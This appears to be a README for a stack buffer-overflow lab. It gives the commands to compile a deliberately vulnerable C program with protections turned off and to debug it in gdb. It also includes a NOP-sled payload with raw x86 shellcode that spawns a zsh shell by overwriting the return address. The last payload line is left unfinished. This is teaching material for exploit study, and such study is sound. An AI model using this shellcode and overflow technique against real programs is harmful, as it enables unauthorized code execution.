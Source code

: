 # Buffalo-Overflow
~
Commands

# compile the code
gcc -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g vuln.c -o vuln

# clean the environment, debug
chmod +x envexec.sh
./envexec.sh -d vuln

# clean the environment, execute exploit
./envexec.sh /root/vuln $(python ...)

# run gdb, load a program to analyze
gdb vuln

GDB commands

# quit the debugger
quit

# clear the screen
ctrl + l
shell clear

# show debugging symbols, ie. code
list
list main

# show the assemlby code
disas main

# examine information
info os

info functions

info variables

# run the program, with input
run Hello

# run the overflow, seg fault
run $(python -c 'print "\x41" * 508')

# examine memory address
x/200x ($esp - 550)

# confirm overwrite of ebp register
info registers

# find a location, below ESP (stack pointer)
EDI = destination index, string / array copying
ESI = source index, string + array copying

EIP = index pointer, next address to execute
EBP = stack base pointer
ESP = stack pointer, starting in high memory, going down
EDX = data register

# run the overflow, launch a zsh shell
run $(python -c 'print "\x90" * 426 + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x2f\x7a\x73\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80" + "\x51\x51\x51\x51" * 10')

# examine memory address
x/200x ($esp - 550)

# convert memeory address to little endian
ecx            0xbfffffc0	-1073741888
edx            0xbffffc3a	-1073742790
ebx            0xb7fb8000	-1208254464
esp            0xbffffc40	0xbffffc40
ebp            0x51515151	0x51515151

0xbf ff fa ba
\xba\xfa\xff\xbf


# run the exploit, execut /bin/zsh5
run $(python -c 'print "\x90" * 425 + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x2f\x7a\x73\x68\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80" + "\xba\xfa\xff\xbf" * 10
